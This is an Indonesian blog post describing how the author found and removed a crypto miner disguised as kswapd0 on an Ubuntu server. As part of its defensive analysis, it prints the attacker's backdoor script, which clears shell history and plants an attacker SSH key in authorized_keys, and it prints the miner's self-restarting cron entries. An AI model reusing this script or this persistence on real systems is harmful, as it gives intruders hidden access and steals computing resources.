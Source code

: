 ```yaml
---
title: How to Deal With High CPU Usage kswapd0 on Linux
lang: id-ID
description: High CPU Usage pada aplikasi kswapd0 bisa berarti SWAP atau bahkan Mining.
image: /images/covers/how-to-deal-with-kswapd0-on-linux.jpg
published: 09/30/2020, 10:55:23 AM
category: devops
author: Ryan Aunur Rassyid
tags: kswapd0,ubuntu,linux,debian,cpu,production,server
meta:
  - name: keywords
    content: kswapd0,ubuntu,linux,debian,cpu,production,server
feed:
  enable: true
---
```

# How to Deal With High CPU Usage kswapd0 on Linux

<Author name="Ryan Aunur Rassyid" />
<FeaturedImage 
  src="/images/covers/how-to-deal-with-kswapd0-on-linux.jpg"
  author="Jase Bloor"
  source="unsplash.com"
  sourceLink="https://unsplash.com/photos/By1VMCg3K4I" />

## Introduction
Beberapa waktu yang lalu penulis sempat menghandle Project yang menggunakan server fisik (bukan VPS). Server tersebut menggunakan Ubuntu 16.04 sebagai *Operating System*-nya. Namun OS yang dipakai tidak sama dengan OS yang penulis pakai setiap kali deploy VPS, padahal versi Ubuntu yang dipakai sama persis yaitu Ubuntu 16.04 tapi serasa seperti Debian. Banyak package package yang hilang atau tidak ada padahal package tersebut seharusnya ada di OS tersebut bahkan fresh install sekalipun. 

Aplikasi berjalan baik dan tanpa kendala, hanya saja berjalan agak pelan untuk ukuran server dengan prosessor 8 core tersebut. Seharusnya aplikasi berjalan lebih baik bukan?. Oke mulai mulai dari sini mulai curiga. Apakah server menjalankan aplikasi lain yang menyebabkan aplikasi lain tidak memiliki cukup resource yang dipakai atau aplikasi yang kita kerjakan memang lamban. Akhirnya investigasi dimulai.

## Table of Contents
[[toc]]

## Apa itu kswapd0?
Singkat cerita ditemukan akar masalahnya, yaitu aplikasi **kswapd0** yang berjalan menggunakan resource CPU 100% terus menerus. Ini sangat tidak wajar untuk aplikasi yang mengatur dan me-*manage* SWAP atau virtual memory pada Linux. Karena ini hal baru yang belum pernah penulis jumpai selama memakai SWAP di Linux, jadi penulis mencoba mengumpulkan informasi dari semua forum-forum apa itu *kswapd0* dan mengapa memakan resource CPU yang banyak.

Ada forum yang berpendapat bahwa kejadian ini adalah bug dari linux yang harusnya sudah di-fix di versi yang baru sedangkan ada beberapa orang berpendapat bahwa ini disebabkan oleh server yang menggunaakn hardisk dari pada SSD sebagai SWAP sehingga CPU dan Hardisk dipaksa bekerja dengan semaksimal mungkin. Team memutuskan untuk upgrade versi package yang kadarluasa dengan menjalankan `apt get upgrade`. Dan bener saja banyak package yang diupgrade pada waktu itu. Namun ini tidak menuntaskan masalah, **kswapd0** tetap berjalan.

![kswapd0 terlihat berjalan di aplikasi monitoring htop](https://telegra.ph/file/2b542fc07f6a6a176c072.jpg)
*Aplikasi kswapd0 terlihat berjalan di aplikasi monitoring htop*

### What now?
Akhirnya kami putuskan untuk menghapus SWAP dari pada penggunaan CPU terus dipakai tanpa ampun. Setelah dihapus apakah masalah ini selesai? sayangnya tidak. Aplikasi tersebut masih berjalan bahkan tanpa adanya SWAP. Lalu apa sebenernya eksistensi dari aplikasi ini?. Akhirnya penulis putuskan untuk investigasi mendalam dan mencoba mengumpulkan informasi lagi di forum. Kali ini penulis mendapatkan secercah cahaya apa maksud dari semua ini. Setelah membaca log Cron Job yang mencurigakan akhirnya didapati pertanyaan yang related dengan masalah ini.

:::: preview https://askubuntu.com/questions/1161003/strange-cron-job-takes-up-100-of-cpu-ubuntu-18-lts-server

::: preview-content Strange Cron Job takes up 100% of CPU Ubuntu 18 LTS Server - Ask Ubuntu
I keep getting weir cron jobs showing up and I have no clue what they do. I typically issue kill -9  to stop them. They take up 100% of my CPU and can run for days until I check. Does anyone know w...

askubuntu.com
:::
::: preview-thumbnail https://cdn.sstatic.net/Sites/askubuntu/Img/apple-touch-icon@2.png?v=c492c9229955
:::
::::

Usut punya usut ternyata aplikasi tersebut adalah aplikasi **Crypto Mining**. Siapa sangka aplikasi ini bisa masuk pada sistem operasi linux yang baru di install. Aplikasi Crypto Mining sendiri adalah aplikasi yang menjalankan proses mining (memecahkan algoritma rumit) yang memerlukan sebuah resource khususnya CPU atau GPU. Keuntungan yang didapat dari mining adalah Cryptocurrency atau mata uang digital. Karena aplikasi ini berjalan tanpa izin dan dijalankan pada komputer atau server orang lain maka aplikasi ini termasuk tindakan yang merugikan orang lain. Aplikasi ini berjalan tanpa henti dan menggunakan semua resource CPU yang ada hingga 100% yang bisa memperpendek umur prosessor karena dipaksa melakukkan pekerjaan keras dalam waktu lama dan terus menerus.

### Menghapus aplikasi
Tidak ada faedahnya membuat aplikasi ini tetap berada di server. Alih alih membiarkan aplikasi tetap berjalan saya memilih untuk menghapus aplikasi ini. Sebelum itu saya lebih penasaran bagaimana aplikasi ini bisa masuk. Asumsi awal adalah aplikasi ini masuk dengan cara SCP atau transfer remote file melalui SSH. Kok bisa? bisa, karena di SSH folder `$HOME/.ssh/` ada file `authorized_keys` yang artinya orang bisa mengakses server kapan saja tanpa password karena Linux mempercayai sepenuhnya pelaku. Dan ini bisa terjadi karena OS yang di-install bukan dari OS resmi dari Ubuntu atau Debian dengan kata lain injected. File instalasi OS bisa saja di susupi script untuk membuat `authorized_keys` seperti berikut.

```bash
set +o history
export PATH=/home/user/.bin:$PATH
cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod 700 .ssh && cd .ssh && chmod 600 authorized_keys && cd ~
```

Setelah pelaku sudah memiliki akses ke server kita melalui ssh, selanjutnya pelaku tinggal mengirim file mining tersebut ke server kita dan menjalankan nya dengan cron job. Kenapa cron job? karena disini aplikasi akan mendeteksi apakah aplikasi mining nya berjalan atau tidak. Apabila aplikasi dihentikan paksa dengan `kill -9 PID` misalnya, maka aplikasi akan kembali berjalan setelah beberapa menit. Dan jika file aplikasi di hapus maka secara otomatis aplikasi akan di sync untuk mendapatkan file crypto mining dan menjalankannya kembali. Terdengar menarik bukan.

```bash
1 1 */2 * * /home/user/.configrc/a/upd>/dev/null 2>&1
@reboot /home/user/.configrc/a/upd>/dev/null 2>&1
5 8 * * 0 /home/user/.configrc/b/sync>/dev/null 2>&1
@reboot /home/user/.configrc/b/sync>/dev/null 2>&1  
0 0 */3 * * /tmp/.X25-unix/.rsync/c/aptitude>/dev/null 2>&1
```

Dan ini adalah struktur folder dari folder aplikasi tersebut disimpan `$HOME/.configrc`. Nama folder yang cukup meyakinkan untuk tidak di cek, karena kita akan berfikir bahwa folder ini mungkin bagian dari folder `.config` yang hanya berisi config dari aplikasi-aplikasi di linux.

```
.
├── a
│   ├── a
│   ├── bash.pid
│   ├── dir.dir
│   ├── init0
│   ├── kswapd0
│   ├── run
│   ├── stop
│   └── upd
├── b
│   ├── a
│   ├── dir.dir
│   ├── run
│   ├── stop
│   └── sync
├── cron.d
└── dir2.dir
```

Setelah aplikasi di berhentikan dan dihapus dari server, penggunaan resource CPU menjadi normal kembali. Untuk meyakinkan bahwa program tersebut sudah tidak aktif kembali dan semua file dan service sudah dihapus dan berhenti, kami menunggu untuk beberapa saat. Yes, aplikasi tidak berjalan kembali dan di monitoring system juga tidak nampak keanehan kembali.

### Virus Total
Kita pastikan kembali bahwa ini adalah aplikasi Crypto Mining dengan cara upload file **kswapd0** tersebut ke website [virustotal](https://www.virustotal.com/gui/file/fd9007df08c1bd2cf47fb97443c4d7360e204f4d8fe48c5d603373b2b2975708/detection). Hasilnya dipastikan bahwa ini bukan file **kswapd0** yang asli atau bawaan Linux melainkan aplikasi Crypto Mining.

![Hasil scan pada website VirusTotal.com](https://telegra.ph/file/9c9b44a1073398b6c30a5.png)
*Hasil scan pada website [VirusTotal.com](https://www.virustotal.com/gui/file/fd9007df08c1bd2cf47fb97443c4d7360e204f4d8fe48c5d603373b2b2975708/detection)*

## Kesimpulan
Sebuah aplikasi yang menggunakan resource berlebih apalagi CPU perlu kita curigai dan usut sampai tuntas apa yang menyebabkan ia menggunakan CPU dengan tidak normal seperti itu. Dalam kasus ini aplikasi bernama **kswapd0** ini menjelma menjadi sebuah aplikasi yang cukup *make sense* untuk menggunakan resource besar tapi *behavior* dari aplikasi ini sendiri tidak seperti pada umunya. 

Dari sini kita bisa mengambil pelajaran bahwa jangan langsung percaya dengan apa yang kita lihat. Sebelum ada bukti yang kuat kita tidak bisa mengatakan bahwa aplikasi ini baik baik saya dan berjalan sebagaimana mestinya. Bisa jadi aplikasi tersebut sedang menyamar menjadi aplikasi lain.

<Disqus />

